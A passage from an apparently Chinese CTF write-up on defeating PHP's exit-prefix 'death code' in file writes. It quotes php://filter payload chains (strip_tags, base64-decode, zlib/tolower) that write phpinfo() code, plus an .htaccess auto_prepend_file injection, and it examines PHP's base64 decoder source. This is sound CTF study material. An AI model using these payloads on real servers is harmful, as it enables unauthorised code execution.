 注意：string.strip\_tags 在 php7.3.0 中被弃用了，所以会报错（不过好像 phpstudy 可以写入) 并且注意下尽量在 docker 起环境，好像 phpstudy 你传就会 500 包含不了。  
其实很简单的就能理解，其实就是做了一个文件包含，先闭合了死亡代码后面写入自定义文件  
CTF 中可以猜 flag 的路径从而完成包含，除了可以简单包含，也是可以利用伪协议或者 utf-7 进行包含

### 组合拳

这里就直接贴出来 s1mple 师傅的一些利用方式不做分析  
1、

```php
$filename='php://filter/string.strip_tags|convert.base64-decode/resource=s1mple.php'
$content='?>PD9waHAgcGhwaW5mbygpOz8+'
```

2、

```php
$filename=php://filter/zlib.deflate|string.tolower|zlib.inflate|/resource=s1mple.php
$content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0dphpinfo();?>/resource=s1mple.php
```

## 第二种 (共用一个变量)

首先这里放出 s1ample 师傅的一种打法  
在 php 不为 7 的条件下

```php
?content=php://filter/write=string.strip_tags/?>php_value%20auto_prepend_file%20G:\s1mple.php%0a%23/resource=.htaccess
```

其实也就是写入.htaccess 进行预包含和前面的原理是一样的

### 关于直接使用 Base64 的思考

在这个知识点上，很多师傅都没有成功。  
比如 Cyc1e 师傅写的

```php
php//filter/write=convertbase64decodePD9waHAgcGhwaW5mbygpOz8+/resource=Cyc1e.php
```

s1maple 师傅写的：

```php
php://filter/convert.base64-decode/resource=PD9waHAgcGhwaW5mbygpOz8+.php
```

问题就在于 base64 在解码的时候将 `=` 作为了解码末尾的判断，如果出现的话后面的字符就无法被解码也就无法构成需要的代码。  
于是我去翻了一下 php 中关于 base64 解码的部分函数的代码如下

```c
static zend_always_inline int php_base64_decode_impl(const unsigned char *in, size_t inl, unsigned char *out, size_t *outl, bool strict) /* {{{ */
{
    int ch;
    size_t i = 0, padding = 0, j = *outl;

#if defined(__aarch64__) || defined(_M_ARM64)
    if (inl >= 16 * 4) {
        size_t left = 0;
        j += neon_base64_decode(in, inl, out, &left);
        i = inl - left;
        in += i;
        inl = left;
    }
#endif

```